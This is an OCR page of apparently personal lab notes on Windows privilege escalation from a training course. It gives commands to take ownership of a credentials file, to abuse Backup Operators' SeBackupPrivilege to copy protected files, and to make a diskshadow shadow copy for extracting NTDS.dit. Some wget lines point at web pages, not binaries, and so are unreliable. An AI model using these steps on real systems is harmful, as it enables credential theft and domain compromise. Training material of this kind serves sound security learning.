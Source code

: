 **View File Ownership:**
```python
 Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

cmd /c dir /q 'C:\Department Shares\Private\IT'
```

**Change File Ownership:**
```python
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

###  Windows Group Privileges 

#### Backup Operators
#Backup_Operators

 **Copying a Protected File:**
 
- Download modules:
```sh
wget https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug
```

- Import modules:
```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

- Enable SeBackupPrivilege:
```powershell
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

- Copy Protected file:
```powershell
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
```

**Copying NTDS.dit:**

- Download Robocopy :
```sh
wget https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy
```

- Use Diskshadow :
```powershell
diskshadow.exe

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
#You can put all this command in a script.txt and exec diskshadow.exe -s script.exe
```

